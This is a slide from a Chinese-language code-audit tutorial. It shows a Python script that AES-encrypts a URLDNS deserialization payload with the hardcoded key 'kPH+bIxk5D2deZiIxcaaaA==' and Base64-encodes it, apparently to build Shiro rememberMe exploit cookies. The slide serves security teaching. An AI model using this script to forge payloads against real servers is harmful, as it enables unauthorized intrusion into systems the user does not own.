

# 代码审计-源码分析
如何实现对DNSURL链进行打入整合呢？首先利用前面编写的DNSURL链代码生成反序列化文件，在代码中要指定DNSLOG平台，然后在通过代码的方式将其进行AES加密以及Base64编码。
DNSURL链生成序列化文件部分已经讲完了，那么如何实现AES加密以及Base64编码呢？可以利用Python实现，源码如下：

from email.mime import base
from pydoc import plain
import sys
import base64
from turtle import mode
import uuid
from random import Random
from Crypto.Cipher import AES
def get_file_data(filename):
 with open(filename, 'rb') as f:
  data = f.read()
 return data
def aes_enc(data):
 BS = AES.block_size
 pad = lambda s: s + ((BS - len(s) % BS) * chr(BS - len(s) % BS)).encode()
 key = "kPH+bIxk5D2deZiIxcaaaA=="
 mode = AES.MODE_CBC
 iv = uuid.uuid4().bytes
 encryptor = AES.new(base64.b64decode(key), mode, iv)
 ciphertext = base64.b64encode(iv + encryptor.encrypt(pad(data)))
 return ciphertext
def aes_dec(enc_data):
 enc_data = base64.b64decode(enc_data)
 unpad = lambda s: s[:-s[-1]]
 key = "kPH+bIxk5D2deZiIxcaaaA=="
 mode = AES.MODE_CBC
 iv = enc_data[:16]
 encryptor = AES.new(base64.b64decode(key), mode, iv)
 plaintext = encryptor.decrypt(enc_data[16:])
 plaintext = unpad(plaintext)
 return plaintext
if __name__ == "__main__":
 data = get_file_data("dnsurl.bin")
 print(aes_enc(data))

159